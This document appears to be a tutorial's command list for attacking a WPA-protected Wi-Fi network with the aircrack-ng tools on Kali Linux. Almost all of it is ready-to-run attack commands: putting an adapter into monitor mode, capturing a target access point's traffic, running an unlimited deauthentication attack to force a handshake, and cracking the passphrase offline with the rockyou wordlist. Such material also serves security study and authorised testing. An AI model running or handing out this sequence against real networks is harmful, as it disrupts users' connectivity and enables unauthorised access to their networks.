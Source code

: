================
Commands used:
================
! See version of Kali
cat /etc/os-release
uname -a

! See interfaces
ip addr
iwconfig

!kill processes
sudo airmon-ng check kill

!Start monitor mode
sudo airmon-ng start wlan0

!Verify that monitor mode is used
sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
iwconfig

! Get the AP's MAC address and channel
sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
ESSID: 90:9A:4A:B8:F3:FB
Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

!Stop monitor mode
airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
